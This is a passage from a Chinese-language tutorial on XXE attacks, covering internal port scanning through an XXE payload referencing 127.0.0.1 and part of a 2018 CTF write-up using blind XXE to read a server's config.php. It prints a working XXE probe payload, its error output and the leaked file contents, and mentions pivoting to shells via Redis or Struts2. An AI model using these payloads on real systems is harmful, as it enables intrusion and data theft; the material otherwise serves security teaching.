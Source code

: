 #实验四：HTTP 内网主机端口扫描

找到了内网的一台主机，想要知道攻击点在哪，我们还需要进行端口扫描，端口扫描的脚本主机探测几乎没有什么变化，只要把ip 地址固定，然后循环遍历端口就行了，当然一般我们端口是通过响应的时间的长短判断该该端口是否开放的，读者可以自行修改一下，当然除了这种方法，我们还能结合 burpsuite 进行端口探测

比如我们传入：
```
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>4</data>
```
返回结果：

```
javax.xml.bind.UnmarshalException  
 - with linked exception:
[Exception [EclipseLink-25004] (Eclipse Persistence Services): org.eclipse.persistence.exceptions.XMLMarshalException
Exception Description: An error occurred unmarshalling the document  
Internal Exception: ████████████████████████: Connection refused
```

这样就完成了一次端口探测。如果想更多，我们可以将请求的端口作为 参数 然后利用 bp 的 intruder 来帮我们探测

如下图所示：

![](https://upload-images.jianshu.io/upload_images/15378294-5147ccefc6b3ada6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

至此，我们已经有能力对整个网段进行了一个全面的探测,并能得到内网服务器的一些信息了，如果内网的服务器有漏洞，并且恰好利用方式在服务器支持的协议的范围内的话，我们就能直接利用 XXE 打击内网服务器甚至能直接 getshell（比如有些 内网的未授权 redis 或者有些通过 http get 请求就能直接getshell 的 比如 strus2）
#实验五：内网盲注(CTF)

2018 强网杯 有一道题就是利用 XXE 漏洞进行内网的 SQL 盲注的,大致的思路如下：

首先在外网的一台ip地址为 39.107.33.75:33899 的评论框处测试发现 XXE 漏洞，我们输入 xml 以及 dtd 会出现报错

如图所示：

![](https://upload-images.jianshu.io/upload_images/15378294-247c841802482ffb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/15378294-412139bd80aa2dfb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

既然如此，那么我们是不是能读取该服务器上面的文件，我们先读配置文件(这个点是 Blind XXE ，必须使用参数实体，外部引用 DTD )

```
/var/www/52dandan.cc/public_html/config.php
```
拿到第一部分 flag
```
<?php
define(BASEDIR, "/var/www/52dandan.club/");
define(FLAG_SIG, 1);
define(SECRETFILE,'/var/www/52dandan.com/public_html/youwillneverknowthisfile_e2cd3614b63ccdcbfe7c8f07376fe431');
....
?>
```
    